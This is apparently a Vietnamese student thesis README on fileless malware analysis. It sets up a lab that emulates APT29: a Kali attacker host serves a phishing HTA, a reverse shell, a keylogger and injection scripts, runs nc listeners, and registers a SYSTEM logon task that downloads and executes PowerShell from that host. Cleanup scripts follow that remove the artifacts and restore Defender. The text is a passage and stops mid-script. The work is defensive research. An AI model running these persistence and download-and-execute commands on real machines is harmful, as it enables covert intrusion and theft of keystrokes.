




# ĐỒ ÁN "NGHIÊN CỨU XÂY DỰNG HỆ THỐNG PHÂN TÍCH FILELESS MALWARE THEO PHƯƠNG PHÁP KẾT HỢP"

# MÔ HÌNH THỰC NGHIỆM



## 1. CHUẨN BỊ TRÊN MÁY ATTACKER

```txt
OS: Kali Linux 2026
IP-1: 192.168.56.100
IP-2: 192.168.56.100

RAM:2
CORE:4(2-2)
```

### Bước 1. Cấu hình SSH

```sh
sudo systemctl enable ssh
sudo systemctl restart ssh
```

### Bước 2: Cấu hình địa chỉ NAT và LAN

```sh
# Xác định tên 2 card mạng
ip -br addr
# ================================= KẾT QUẢ =================================
# ┌──(kali㉿kali)-[~]
# └─$ ip -br addr
# lo               UNKNOWN        127.0.0.1/8 ::1/128 
# eth0             UP             192.168.195.138/24 fe80::15cf:4d3:df5e:2062/64 
# eth1             UP  
# ===========================================================================

# Xác định profile kết nối
nmcli connection show
# ================================= KẾT QUẢ =================================
# ┌──(kali㉿kali)-[~]
# └─$ nmcli connection show
# NAME                UUID                                  TYPE      DEVICE 
# Wired connection 1  ed328c21-e64a-3d98-b08b-f83010652818  ethernet  eth0   
# lo                  dff41ba1-3ad1-4d74-95ec-ac3fcc621ddf  loopback  lo     
# Wired connection 2  c182a520-2f61-35cb-a560-c31fb7851081  ethernet  --
# ===========================================================================


# Xác định default gateway
ip -4 route
# ================================= KẾT QUẢ =================================
# ┌──(kali㉿kali)-[~]
# └─$ ip -4 route
# default via 192.168.195.2 dev eth0 proto dhcp src 192.168.195.138 metric 100 
# 192.168.195.0/24 dev eth0 proto kernel scope link src 192.168.195.138 metric 100 
# ===========================================================================

# Cấu hình địa chỉ IPv4 NAT
sudo nmcli connection modify "Wired connection 1" \
  ipv4.method manual \
  ipv4.addresses 192.168.195.100/24 \
  ipv4.gateway 192.168.195.2 \
  ipv4.dns "1.1.1.1 8.8.8.8" \
  connection.autoconnect yes

# Cấu hình đại chỉ IPv4 LAN
sudo nmcli connection modify "Wired connection 2" \
  ipv4.method manual \
  ipv4.addresses 192.168.56.100/24 \
  ipv4.gateway "" \
  ipv4.never-default yes \
  connection.autoconnect yes

# Áp dụng cấu hình
sudo nmcli connection up "Wired connection 1"
sudo nmcli connection up "Wired connection 2"

# Khởi động lại máy ảo
sudo reboot
```

### Bước 3: Chuẩn bị tài nguyên cần thiết cho APT29

```sh
sudo -v

sudo mkdir /var/www/html/apt29
sudo mkdir /var/www/html/apt29/phish

# Tải Invoice_October.hta
sudo curl -fL \
"https://raw.githubusercontent.com/song-740/do-an/ver1.0.0/thuc-nghiem/apt29/phish/Invoice_October.hta.txt" \
-o /var/www/html/apt29/phish/Invoice_October.hta

# Tải stage1.ps1
sudo curl -fL \
"https://raw.githubusercontent.com/song-740/do-an/refs/heads/ver1.0.0/thuc-nghiem/apt29/stage1.ps1.txt" \
-o /var/www/html/apt29/stage1.ps1

# Tải wmi_setup.ps1
sudo curl -fL \
"https://raw.githubusercontent.com/song-740/do-an/refs/heads/ver1.0.0/thuc-nghiem/apt29/wmi_setup.ps1.txt" \
-o /var/www/html/apt29/wmi_setup.ps1


# Tải orchestrator.ps1
sudo curl -fL \
"https://raw.githubusercontent.com/song-740/do-an/refs/heads/ver1.0.0/thuc-nghiem/apt29/orchestrator.ps1.txt" \
-o /var/www/html/apt29/orchestrator.ps1

# Tải revshell.ps1
sudo curl -fL \
"https://raw.githubusercontent.com/song-740/do-an/refs/heads/ver1.0.0/thuc-nghiem/apt29/revshell.ps1.txt" \
-o /var/www/html/apt29/revshell.ps1

# Tải Invoke-PSInject.ps1
sudo curl -fL \
"https://raw.githubusercontent.com/song-740/do-an/refs/heads/ver1.0.0/thuc-nghiem/apt29/Invoke-PSInject.ps1.txt" \
-o /var/www/html/apt29/Invoke-PSInject.ps1

# Tải keylogger.ps1
sudo curl -fL \
"https://raw.githubusercontent.com/song-740/do-an/refs/heads/ver1.0.0/thuc-nghiem/apt29/keylogger.ps1.txt" \
-o /var/www/html/apt29/keylogger.ps1

# Tải login_handler.ps1
sudo curl -fL \
"https://raw.githubusercontent.com/song-740/do-an/refs/heads/ver1.0.0/thuc-nghiem/apt29/login_handler.ps1.txt" \
-o /var/www/html/apt29/login_handler.ps1

# Đổi về đúng địa chỉ IP đúng của máy 
sudo find /var/www/html/apt29 -type f -exec sed -i 's/192\.168\.56\.10/192.168.56.100/g' {} +

# Check
sudo grep -RnF '192.168.56.10' /var/www/html/apt29
sudo grep -RnF '192.168.56.100' /var/www/html/apt29

cd /var/www/html/apt29

python3 -m http.server 8000

python3 https_server.py

nc -lvnp 4444
nc -lvnp 5555

# Client truy cập
http://192.168.56.100:8000/phish/Invoice_October.hta
https://192.168.56.100:8443/phish/Invoice_October.hta

```

### Bước 4: Thực thi

```ps1
# Tạo task sau khi đã có revshell
Register-ScheduledTask -TaskName "APT29LoginTask" -Force -Action (New-ScheduledTaskAction -Execute "powershell.exe" -Argument '-NoP -W H -C "IEX(New-Object Net.WebClient).DownloadString(''http://192.168.56.100:8000/login_handler.ps1'')"') -Trigger (New-ScheduledTaskTrigger -AtLogOn) -Principal (New-ScheduledTaskPrincipal -UserId "SYSTEM" -RunLevel Highest)


Register-ScheduledTask -TaskName "APT29LoginTask" -Force -Action (New-ScheduledTaskAction -Execute "powershell.exe" -Argument '-NoP -W H -Exec Bypass -C "[Net.ServicePointManager]::ServerCertificateValidationCallback={$true};[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;[Net.WebRequest]::DefaultWebProxy=$null;$wc=New-Object Net.WebClient;$wc.Proxy=$null;IEX $wc.DownloadString(''https://192.168.56.100:8443/login_handler.ps1'')"') -Trigger (New-ScheduledTaskTrigger -AtLogOn) -Principal (New-ScheduledTaskPrincipal -UserId "SYSTEM" -RunLevel Highest)

# Ép task thực thi
Start-ScheduledTask -TaskName "APT29LoginTask"

```

## 2. CHUẨN BỊ TRÊN MÁY CLIENT

# CLEAN UP LẠI MÁY

```PS1
notepad C:\cleanup.ps1
```

<!-- <details>
<summary>Bấm vào đây để xem nội dung</summary>

```PS1
Set-ExecutionPolicy Bypass -Scope Process -Force

Write-Host ""
Write-Host "================================================" -ForegroundColor Cyan
Write-Host "  APT29 CLEANUP - UPDATED (SilentCleanup aware)" -ForegroundColor Cyan
Write-Host "================================================" -ForegroundColor Cyan
Write-Host ""

$deleted = 0
$failed = 0

# ============================================
# [1] KILL PROCESSES
# ============================================
Write-Host "[1] Kill processes..." -ForegroundColor Yellow

@('notepad','sandcat','mshta','fodhelper','computerdefaults','cleanmgr') | ForEach-Object {
    Get-Process $_ -ErrorAction SilentlyContinue | ForEach-Object {
        Stop-Process -Id $_.Id -Force -ErrorAction SilentlyContinue
        Write-Host "  [KILLED] $($_.Name) PID $($_.Id)" -ForegroundColor Green
        $script:deleted++
    }
}

Get-Process powershell, pwsh -ErrorAction SilentlyContinue | Where-Object {
    $_.Id -ne $PID -and $_.MainWindowTitle -eq ""
} | ForEach-Object {
    Stop-Process -Id $_.Id -Force -ErrorAction SilentlyContinue
    Write-Host "  [KILLED] Hidden PowerShell PID $($_.Id)" -ForegroundColor Green
    $script:deleted++
}
Write-Host ""

# ============================================
# [2] DELETE WMI
# ============================================
Write-Host "[2] Delete WMI subscriptions..." -ForegroundColor Yellow

$wmiNames = @('NotepadTrigger','APT29Stage2','WindowsParentalControlMigration','WMITest')

@('__FilterToConsumerBinding','CommandLineEventConsumer','__EventFilter') | ForEach-Object {
    $class = $_
    Get-CimInstance -Namespace root/subscription -ClassName $class -ErrorAction SilentlyContinue |
        Where-Object {
            ($_.Name -in $wmiNames) -or
            ($_.Filter -and $_.Filter.Name -in $wmiNames) -or
            ($_.Consumer -and $_.Consumer.Name -in $wmiNames)
        } | ForEach-Object {
            try {
                Remove-CimInstance $_ -ErrorAction Stop
                Write-Host "  [DELETED] WMI: $class" -ForegroundColor Green
                $script:deleted++
            } catch {
                Write-Host "  [FAILED] WMI: $class" -ForegroundColor Red
                $script:failed++
            }
        }
}
Write-Host ""

# ============================================
# [3] DELETE REGISTRY (mo rong)
# ============================================
Write-Host "[3] Delete Registry keys..." -ForegroundColor Yellow

$regPaths = @(
    'HKCU:\Software\Classes\APT29Stage1',
    'HKCU:\SOFTWARE\APT29Persist',
    'HKCU:\Software\Classes\ms-settings',
    'HKCU:\Software\Classes\AtomicRedTeam',
    'HKLM:\SOFTWARE\APT29Persist',
    'HKLM:\Software\Classes\APT29Stage1'
)

foreach ($path in $regPaths) {
    if (Test-Path $path) {
        try {
            Remove-Item $path -Recurse -Force -ErrorAction Stop
            Write-Host "  [DELETED] $path" -ForegroundColor Green
            $script:deleted++
        } catch {
            Write-Host "  [FAILED] $path" -ForegroundColor Red
            $script:failed++
        }
    }
}

# Xoa windir override (SilentCleanup bypass)
Write-Host "  [3b] Check HKCU:\Environment\windir..." -ForegroundColor Yellow
$envKey = 'HKCU:\Environment'
if (Test-Path $envKey) {
    $windirVal = (Get-ItemProperty $envKey -Name windir -EA SilentlyContinue).windir
    if ($windirVal) {
        Remove-ItemProperty -Path $envKey -Name windir -Force -EA SilentlyContinue
        Write-Host "  [DELETED] HKCU:\Environment\windir (was: $windirVal)" -ForegroundColor Green
        $script:deleted++
    } else {
        Write-Host "  [--] Khong co windir override" -ForegroundColor Gray
    }
}
Write-Host ""

# ============================================
# [4] DELETE TASKS
# ============================================
Write-Host "[4] Delete Scheduled Tasks..." -ForegroundColor Yellow

$tasks = @('APT29LoginTask','APT29MaintenanceTask','TestElevate','ATOMIC-T1053.005')

foreach ($task in $tasks) {
    if (Get-ScheduledTask -TaskName $task -ErrorAction SilentlyContinue) {
        Unregister-ScheduledTask -TaskName $task -Confirm:$false -ErrorAction SilentlyContinue
        schtasks /Delete /TN $task /F 2>$null | Out-Null
        Write-Host "  [DELETED] $task" -ForegroundColor Green
        $script:deleted++
    }
}

# Khoi phuc SilentCleanup neu bi modify
Write-Host "  [4b] Check SilentCleanup task..." -ForegroundColor Yellow
$silent = Get-ScheduledTask -TaskPath "\Microsoft\Windows\DiskCleanup\" -TaskName "SilentCleanup" -ErrorAction SilentlyContinue
if ($silent) {
    Write-Host "  [OK] SilentCleanup task exists (system task - khong xoa)" -ForegroundColor Green
}
Write-Host ""

# ============================================
# [5] DELETE FILES
# ============================================
Write-Host "[5] Delete files/folders..." -ForegroundColor Yellow

$pathsToDelete = @(
    'C:\Users\Public\apt29',
    'C:\APT29Demo',
    'C:\temp',
    'C:\Users\Public\proof.txt',
    'C:\Users\Public\task_proof.txt',
    'C:\Users\Public\test_uac.txt',
    'C:\Users\Public\inject_test.txt',
    'C:\Users\Public\test.txt',
    'C:\Users\Public\test.hta',
    'C:\Users\Public\test2.hta',
    'C:\Users\Public\test3.hta',
    'C:\Users\Public\test_elevate.bat',
    'C:\Users\Public\test_elevate.txt',
    'C:\Users\Public\sandcat.exe',
    'C:\Users\Public\cleanmgr.exe',
    'C:\Users\Public\payload.exe',
    'C:\Users\Public\SilentCleanup.exe',
    'C:\uac_bypass_debug.ps1',
    'C:\Windows\Temp\art-marker.txt',
    "$env:USERPROFILE\Downloads\Invoice_October.hta",
    "$env:USERPROFILE\Desktop\Invoice_October.hta"
)

foreach ($path in $pathsToDelete) {
    if (Test-Path $path) {
        try {
            Remove-Item $path -Recurse -Force -ErrorAction Stop
            Write-Host "  [DELETED] $path" -ForegroundColor Green
            $script:deleted++
        } catch {
            Write-Host "  [FAILED] $path" -ForegroundColor Red
            $script:failed++
        }
    }
}

@("$env:USERPROFILE\Downloads", "$env:USERPROFILE\Desktop") | ForEach-Object {
    if (Test-Path $_) {
        Get-ChildItem $_ -ErrorAction SilentlyContinue | Where-Object {
            ($_.Name -like "Invoice*") -or ($_.Name -like "*APT29*") -or ($_.Extension -eq ".hta")
        } | ForEach-Object {
            Remove-Item $_.FullName -Force -ErrorAction SilentlyContinue
            Write-Host "  [DELETED] $($_.FullName)" -ForegroundColor Green
            $script:deleted++
        }
    }
}
Write-Host ""

# ============================================
# [6] RESTORE DEFENDER
# ============================================
Write-Host "[6] Restore Windows Defender..." -ForegroundColor Yellow

try {
    Set-MpPreference -DisableRealtimeMonitoring $false -ErrorAction Stop
    Set-MpPreference -DisableIOAVProtection $false -ErrorAction Stop
    Set-MpPreference -DisableScriptScanning $false -ErrorAction Stop
    Write-Host "  [OK] Defender restored" -ForegroundColor Green
} catch {
    Write-Host "  [FAILED] Cannot restore Defender" -ForegroundColor Red
    $script:failed++
}
Write-Host ""

# ============================================
# [7] VERIFY
# ============================================
Write-Host "================================================" -ForegroundColor Cyan
Write-Host "  VERIFY" -ForegroundColor Cyan
Write-Host "================================================" -ForegroundColor Cyan
Write-Host ""

$totalChecks = 0
$passChecks = 0
$failChecks = 0

function Check-Item {
    param([string]$Name, [bool]$Condition)
    $script:totalChecks++
    if ($Condition) {
        Write-Host "  [PASS] $Name" -ForegroundColor Green
        $script:passChecks++
    } else {
        Write-Host "  [FAIL] $Name" -ForegroundColor Red
        $script:failChecks++
    }
}

# WMI
Write-Host "  --- WMI ---" -ForegroundColor White
Check-Item "WMI EventFilter" (-not (Get-CimInstance -Namespace root/subscription -ClassName __EventFilter -EA SilentlyContinue | Where-Object { $_.Name -in $wmiNames }))
Check-Item "WMI Consumer" (-not (Get-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -EA SilentlyContinue | Where-Object { $_.Name -in $wmiNames }))
Write-Host ""

# Registry
Write-Host "  --- Registry ---" -ForegroundColor White
foreach ($reg in $regPaths) {
    Check-Item "Registry: $reg" (-not (Test-Path $reg))
}
Check-Item "No windir override" (-not (Get-ItemProperty 'HKCU:\Environment' -Name windir -EA SilentlyContinue).windir)
Write-Host ""

# Tasks
Write-Host "  --- Tasks ---" -ForegroundColor White
foreach ($task in $tasks) {
    Check-Item "Task: $task" (-not (Get-ScheduledTask -TaskName $task -EA SilentlyContinue))
}
Write-Host ""

# Files
Write-Host "  --- Files/Folders ---" -ForegroundColor White
foreach ($path in @('C:\Users\Public\apt29','C:\APT29Demo','C:\temp','C:\Users\Public\sandcat.exe','C:\Users\Public\cleanmgr.exe')) {
    Check-Item "Path: $path" (-not (Test-Path $path))
}
Write-Host ""

# Processes
Write-Host "  --- Processes ---" -ForegroundColor White
foreach ($proc in @('notepad','sandcat','mshta','fodhelper','computerdefaults')) {
    Check-Item "Process: $proc" (-not (Get-Process $proc -EA SilentlyContinue))
}
Write-Host ""

# Defender
Write-Host "  --- Defender ---" -ForegroundColor White
$def = Get-MpPreference
Check-Item "RealtimeMonitoring" (-not $def.DisableRealtimeMonitoring)
Check-Item "IOAVProtection" (-not $def.DisableIOAVProtection)
Check-Item "ScriptScanning" (-not $def.DisableScriptScanning)
Write-Host ""

# ============================================
# SUMMARY
# ============================================
Write-Host "================================================" -ForegroundColor Cyan
Write-Host "  SUMMARY" -ForegroundColor Cyan
Write-Host "================================================" -ForegroundColor Cyan
Write-Host "  Deleted : $deleted" -ForegroundColor White
Write-Host "  Failed  : $failed" -ForegroundColor White
Write-Host "  Checks  : $totalChecks (Pass: $passChecks, Fail: $failChecks)" -ForegroundColor White
Write-Host ""

if ($failChecks -eq 0 -and $failed -eq 0) {
    Write-Host "================================================" -ForegroundColor Green
    Write-Host "  [SUCCESS] MACHINE IS FULLY CLEAN!" -ForegroundColor Green
    Write-Host "================================================" -ForegroundColor Green
} else {
    Write-Host "================================================" -ForegroundColor Yellow
    Write-Host "  [WARNING] Check [FAIL] items above" -ForegroundColor Yellow
    Write-Host "================================================" -ForegroundColor Yellow
}

# [RESTORE] PowerShell Logging Policies
Write-Host "[Restore] PowerShell Logging Policies..." -ForegroundColor Yellow

$sbPath = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"
$mlPath = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging"
$trPath = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\Transcription"

# ScriptBlockLogging = 1
if (-not (Test-Path $sbPath)) { New-Item -Path $sbPath -Force | Out-Null }
Set-ItemProperty -Path $sbPath -Name "EnableScriptBlockLogging" -Value 1 -Type DWord -Force
Write-Host "  [OK] ScriptBlockLogging = 1" -ForegroundColor Green

# ModuleLogging = 1
if (-not (Test-Path $mlPath)) { New-Item -Path $mlPath -Force | Out-Null }
Set-ItemProperty -Path $mlPath -Name "EnableModuleLogging" -Value 1 -Type DWord -Force
Write-Host "  [OK] ModuleLogging = 1" -ForegroundColor Green

# Transcription = 1
if (-not (Test-Path $trPath)) { New-Item -Path $trPath -Force | Out-Null }
Set-ItemProperty -Path $trPath -Name "EnableTranscripting" -Value 1 -Type DWord -Force
Write-Host "  [OK] Transcription = 1" -ForegroundColor Green

Write-Host ""
Write-Host "[*] Recommend: Restart-Computer -Force" -ForegroundColor Cyan
Write-Host ""


```

</details> -->


<details>
<summary>Bấm vào đây để xem nội dung 2</summary>

```ps1
Set-ExecutionPolicy Bypass -Scope Process -Force

Write-Host ""
Write-Host "================================================" -ForegroundColor Cyan
Write-Host "  APT29 CLEANUP - FULL (all artifacts)" -ForegroundColor Cyan
Write-Host "================================================" -ForegroundColor Cyan
Write-Host ""

$deleted = 0
$failed = 0

# ============================================
# [1] KILL PROCESSES
# ============================================
Write-Host "[1] Kill processes..." -ForegroundColor Yellow

@('notepad','sandcat','mshta','fodhelper','computerdefaults','cleanmgr') | ForEach-Object {
    Get-Process $_ -ErrorAction SilentlyContinue | ForEach-Object {
        Stop-Process -Id $_.Id -Force -ErrorAction SilentlyContinue
        Write-Host "  [KILLED] $($_.Name) PID $($_.Id)" -ForegroundColor Green
        $script:deleted++
    }
}

Get-Process powershell, pwsh -ErrorAction SilentlyContinue | Where-Object {
    $_.Id -ne $PID -and $_.MainWindowTitle -eq ""
} | ForEach-Object {
    Stop-Process -Id $_.Id -Force -ErrorAction SilentlyContinue
    Write-Host "  [KILLED] Hidden PowerShell PID $($_.Id)" -ForegroundColor Green
    $script:deleted++
}
Write-Host ""

# ============================================
# [2] DELETE WMI
# ============================================
Write-Host "[2] Delete WMI subscriptions..." -ForegroundColor Yellow

$wmiNames = @('NotepadTrigger','APT29Stage2','WindowsParentalControlMigration','WMITest')

@('__FilterToConsumerBinding','CommandLineEventConsumer','__EventFilter') | ForEach-Object {
    $class = $_
    Get-CimInstance -Namespace root/subscription -ClassName $class -ErrorAction SilentlyContinue |
        Where-Object {
            ($_.Name -in $wmiNames) -or
            ($_.Filter -and $_.Filter.Name -in $wmiNames) -or
            ($_.Consumer -and $_.Consumer.Name -in $wmiNames)
        } | ForEach-Object {
            try {
                Remove-CimInstance $_ -ErrorAction Stop
                Write-Host "  [DELETED] WMI: $class" -ForegroundColor Green
                $script:deleted++
            } catch {
                Write-Host "  [FAILED] WMI: $class" -ForegroundColor Red
                $script:failed++
            }
        }
}
Write-Host ""

# ============================================
# [3] DELETE REGISTRY
# ============================================
Write-Host "[3] Delete Registry keys..." -ForegroundColor Yellow

$regPaths = @(
    'HKCU:\Software\Classes\APT29Stage1',
    'HKCU:\SOFTWARE\APT29Persist',
    'HKCU:\Software\Classes\ms-settings',
    'HKCU:\Software\Classes\AtomicRedTeam',
    'HKCU:\SOFTWARE\ATOMIC-T1053.005',
    'HKLM:\SOFTWARE\APT29Persist',
    'HKLM:\Software\Classes\APT29Stage1'
)

foreach ($path in $regPaths) {
    if (Test-Path $path) {
        try {
            Remove-Item $path -Recurse -Force -ErrorAction Stop
            Write-Host "  [DELETED] $path" -ForegroundColor Green
            $script:deleted++
        } catch {
            Write-Host "  [FAILED] $path" -ForegroundColor Red
            $script:failed++
        }
    }
}

# windir override
$envKey = 'HKCU:\Environment'
if (Test-Path $envKey) {
    $windirVal = (Get-ItemProperty $envKey -Name windir -EA SilentlyContinue).windir
    if ($windirVal) {
        Remove-ItemProperty -Path $envKey -Name windir -Force -EA SilentlyContinue
        Write-Host "  [DELETED] HKCU:\Environment\windir (was: $windirVal)" -ForegroundColor Green
        $script:deleted++
    }
}
Write-Host ""

# ============================================
# [4] DELETE TASKS
# ============================================
Write-Host "[4] Delete Scheduled Tasks..." -ForegroundColor Yellow

$tasks = @('APT29LoginTask','APT29MaintenanceTask','TestElevate','ATOMIC-T1053.005')

foreach ($task in $tasks) {
    if (Get-ScheduledTask -TaskName $task -ErrorAction SilentlyContinue) {
        Unregister-ScheduledTask -TaskName $task -Confirm:$false -ErrorAction SilentlyContinue
        schtasks /Delete /TN $task /F 2>$null | Out-Null
        Write-Host "  [DELETED] $task" -ForegroundColor Green
        $script:deleted++
    }
}
Write-Host ""

# ============================================
# [5] DELETE FILES (bao gom debug files)
# ============================================
Write-Host "[5] Delete files/folders..." -ForegroundColor Yellow

$pathsToDelete = @(
    # Folders chinh
    'C:\Users\Public\apt29',
    'C:\APT29Demo',
    'C:\temp',
    # Files tu kill chain
    'C:\Users\Public\proof.txt',
    'C:\Users\Public\task_proof.txt',
    'C:\Users\Public\test_uac.txt',
    'C:\Users\Public\inject_test.txt',
    'C:\Users\Public\test.txt',
    'C:\Users\Public\sandcat.exe',
    'C:\Users\Public\cleanmgr.exe',
    'C:\Users\Public\payload.exe',
    'C:\Users\Public\SilentCleanup.exe',
    'C:\Windows\Temp\art-marker.txt',
    'C:\uac_bypass_debug.ps1',
    'C:\cleanup.ps1',
    # .hta files
    'C:\Users\Public\test.hta',
    'C:\Users\Public\test2.hta',
    'C:\Users\Public\test3.hta',
    'C:\Users\Public\debug.hta',
    # .bat files
    'C:\Users\Public\test_elevate.bat',
    'C:\Users\Public\test_elevate.txt',
    'C:\Users\Public\run.bat',
    'C:\Users\Public\run_login.bat',
    # Debug logs tu session
    'C:\Users\Public\hta_run.log',
    'C:\Users\Public\hta_ps.log',
    'C:\Users\Public\hta_debug.log',
    'C:\Users\Public\ps_debug.log',
    'C:\Users\Public\ps_test.txt',
    'C:\Users\Public\task_debug.txt',
    'C:\Users\Public\task_output.txt',
    # Cert downloaded
    'C:\Users\Public\cert.cer',
    # .hta trong Downloads/Desktop
    "$env:USERPROFILE\Downloads\Invoice_October.hta",
    "$env:USERPROFILE\Desktop\Invoice_October.hta"
)

foreach ($path in $pathsToDelete) {
    if (Test-Path $path) {
        try {
            Remove-Item $path -Recurse -Force -ErrorAction Stop
            Write-Host "  [DELETED] $path" -ForegroundColor Green
            $script:deleted++
        } catch {
            Write-Host "  [FAILED] $path" -ForegroundColor Red
            $script:failed++
        }
    }
}

# Scan Downloads/Desktop cho .hta con sot
@("$env:USERPROFILE\Downloads", "$env:USERPROFILE\Desktop") | ForEach-Object {
    if (Test-Path $_) {
        Get-ChildItem $_ -ErrorAction SilentlyContinue | Where-Object {
            ($_.Name -like "Invoice*") -or ($_.Name -like "*APT29*") -or ($_.Extension -eq ".hta")
        } | ForEach-Object {
            Remove-Item $_.FullName -Force -ErrorAction SilentlyContinue
            Write-Host "  [DELETED] $($_.FullName)" -ForegroundColor Green
            $script:deleted++
        }
    }
}
Write-Host ""

# ============================================
# [6] DELETE CERT + RESET PROXY
# ============================================
Write-Host "[6] Delete cert + reset proxy..." -ForegroundColor Yellow

# Cert self-signed trong Trusted Root
$certs = Get-ChildItem Cert:\LocalMachine\Root -ErrorAction SilentlyContinue |
    Where-Object { $_.Subject -match '192\.168\.56\.100' -or $_.Subject -match 'DESKTOP-3H9MVK0' }
foreach ($cert in $certs) {
    try {
        Remove-Item -Path $cert.PSPath -Force -ErrorAction Stop
        Write-Host "  [DELETED] Cert: $($cert.Subject)" -ForegroundColor Green
        $script:deleted++
    } catch {
        Write-Host "  [FAILED] Cert: $($cert.Subject)" -ForegroundColor Red
        $script:failed++
    }
}

# Reset WinHTTP proxy
netsh winhttp reset proxy 2>$null | Out-Null
Write-Host "  [RESET] WinHTTP proxy" -ForegroundColor Green
Write-Host ""

# ============================================
# [7] RESTORE DEFENDER
# ============================================
Write-Host "[7] Restore Windows Defender..." -ForegroundColor Yellow

try {
    Set-MpPreference -DisableRealtimeMonitoring $false -ErrorAction Stop
